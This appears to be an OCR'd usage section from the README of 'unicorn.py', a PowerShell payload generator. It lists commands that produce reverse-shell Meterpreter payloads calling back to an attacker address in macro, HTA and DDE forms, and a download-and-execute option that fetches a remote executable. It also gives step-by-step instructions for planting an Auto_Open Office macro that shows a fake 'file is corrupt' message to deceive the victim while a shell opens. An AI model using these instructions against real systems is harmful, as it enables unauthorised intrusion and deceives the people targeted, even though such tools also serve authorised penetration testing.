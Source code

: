 ```
Macro Example Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode macro
HTA Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 hta
HTA Example CS: python unicorn.py <cobalt_strike_file.cs> cs hta
HTA Example Shellcode: python unicorn.py <path_to_shellcode.txt>: shellcode hta
DDE Example: python unicorn.py windows/meterpreter/reverse_https 192.168.1.5 443 dde
CRT Example: python unicorn.py <path_to_payload/exe_encode> crt
Custom PS1 Example: python unicorn.py <path to ps1 file>
Custom PS1 Example: python unicorn.py <path to ps1 file> macro 500
Cobalt Strike Example: python unicorn.py <cobalt_strike_file.cs> cs (export CS in C# format)
Custom Shellcode: python unicorn.py <path_to_shellcode.txt> shellcode (formatted 0x00)
Help Menu: python unicorn.py --help
```

###                -----POWERSHELL ATTACK INSTRUCTIONS----

Everything is now generated in two files, powershell_attack.txt and unicorn.rc. The text file contains  all of the code needed in order to inject the powershell attack into memory. Note you will need a place that supports remote command injection of some sort. Often times this could be through an excel/word  doc or through psexec_commands inside of Metasploit, SQLi, etc.. There are so many implications and  scenarios to where you can use this attack at. Simply paste the powershell_attack.txt command in any command prompt window or where you have the ability to call the powershell executable and it will give a shell back to you. This attack also supports windows/download_exec for a payload method instead of just Meterpreter payloads. When using the download and exec, simply put python unicorn.py windows/download_exec url=https://www.thisisnotarealsite.com/payload.exe and the powershell code will download the payload and execute.

Note that you will need to have a listener enabled in order to capture the attack.

###                -----MACRO ATTACK INSTRUCTIONS----

For the macro attack, you will need to go to File, Properties, Ribbons, and select Developer. Once you do
that, you will have a developer tab. Create a new macro, call it Auto_Open and paste the generated code
into that. This will automatically run. Note that a message will prompt to the user saying that the file
is corrupt and automatically close the excel document. THIS IS NORMAL BEHAVIOR! This is  tricking the
victim to thinking the excel document is corrupted. You should get a shell through powershell injection
after that.

If you are deploying this against Office365/2016+ versions of Word you need to modify the first line of 
the output from: Sub Auto_Open()
 
To: Sub AutoOpen()
 
The name of the macro itself must also be "AutoOpen" instead of the legacy "Auto_Open" naming scheme.

NOTE: WHEN COPYING AND PASTING THE EXCEL, IF THERE ARE ADDITIONAL SPACES THAT ARE ADDED YOU NEED TO
REMOVE THESE AFTER EACH OF THE POWERSHELL CODE SECTIONS UNDER VARIABLE "x" OR A SYNTAX ERROR WILL
HAPPEN!
